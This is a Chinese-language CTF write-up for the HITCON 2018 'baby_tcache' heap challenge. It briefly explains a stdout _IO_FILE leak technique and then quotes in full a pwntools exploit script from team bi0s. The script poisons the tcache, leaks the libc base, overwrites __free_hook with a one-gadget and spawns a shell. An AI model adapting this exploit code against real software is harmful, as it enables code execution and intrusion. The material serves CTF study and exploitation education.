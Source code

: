 # HITCON2018 baby_tcache
## 文火

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>同样也是经典的tcache题，难点在于无法用常规题的show来leak出数据，这里我参考了[bi0s队伍](https://vigneshsrao.github.io/babytcache/)的writeup,利用了_IO_FILE结构的stdout中的_IO_write_ptr-_IO_write_base来扩大输出的范围，从而leak出可以用来计算libc_base的数据达到目的。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>引用一下大佬们的writeup:</font></br>

引用自bi0s
======

```python
from pwn import *
import sys

HOST='52.68.236.186'
PORT=56746

#context.terminal=['tmux', 'splitw', '-h']
#context.terminal = ['urxvtc', '-e', 'sh', '-c']

if len(sys.argv)>1:
    r=remote(HOST,PORT)
else:
    r=process('./baby_tcache',env={"LD_PRELOAD":"./libc.so.6"})
    context.log_level='debug'
    gdb.attach(r)

libc=ELF("./libc.so.6")

def menu(opt):
    r.sendlineafter("Your choice: ",str(opt))

def alloc(size,data='a'):
    menu(1)
    r.sendlineafter("Size:",str(size))
    r.sendafter("Data:",data)

def delete(idx):
    menu(2)
    r.sendlineafter("Index:",str(idx))

def getleak():
    alloc(0x500-0x8)  # 0
    alloc(0x30)   # 1
    alloc(0x40)  # 2
    alloc(0x50)  # 3
    alloc(0x60)  # 4
    alloc(0x500-0x8)  # 5
    alloc(0x70)  # 6
    delete(4)
    alloc(0x68,'A'*0x60+'\x60\x06')  # set the prev size
    delete(2)
    delete(0)
    delete(5)  # backward coeleacsing
    alloc(0x500-0x9+0x34)
    delete(4)
    alloc(0xa8,'\x60\xc7')  # corrupt the fd of the tcache-fastbin
    alloc(0x40,'a')
    #gdb.attach(r,'''b*0x0000555555554D21\nb*_IO_file_seek''')
    alloc(0x3e,p64(0xfbad1800)+p64(0)*3+'\x00')  # overwrite the file-structure
    r.recv(8)
    libc.address=u64(r.recv(8))-0x3ed8b0
    log.info("libc @ "+hex(libc.address))
    alloc(0xa8,p64(libc.symbols['__free_hook'])) # corrupt twice
    alloc(0x60,"A")
    alloc(0x60,p64(libc.address+0x4f322)) # one gadget with $rsp+0x40 = NULL
    delete(0)

    r.interactive()


if __name__=='__main__':

    getleak()

```